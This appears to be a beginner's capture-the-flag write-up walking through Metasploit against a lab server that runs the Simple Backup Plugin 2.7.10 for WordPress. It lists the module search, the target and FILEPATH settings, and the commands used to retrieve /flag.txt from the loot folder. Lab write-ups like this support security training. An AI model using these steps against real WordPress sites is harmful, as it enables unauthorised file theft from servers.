 ## First hack with Metasploit

Q: Try to identify the services running on the server above, and then try to search to find public exploits to exploit them. Once you do, try to get the content of the '/flag.txt' file. (note: the web server may take a few seconds to start)

I first open up the target in my browser to see what we are working with. I meet a webpage displaying the text "Simple Backup Plugin 2.7.10 for WordPress".

I search up "simple backup" on Metasploit to see if I get any hits on it. The rest I will show is the commands to this hack.
<br>

```
msf6 > search simple backup
```
<br>

```
msf6 > use 0
```
<br>

```
msf6 > options
```
<br>

```
msf6 > set RHOST *ip-adress
```
<br>

```
msf6 > set RPORT *port
```
<br>

*this is because the question is asking us to try and get the content of the /flag.txt
```
msf6 > set FILEPATH /flag.txt
```
<br>

```
msf6 > run
```
<br>


```
cd /home/kali/.msf4/loot
```
<br>

```
ls
```
<br>


```
cat *file that you have displayed with the ls command
```
<br>

And there you have your flag. Your first hack
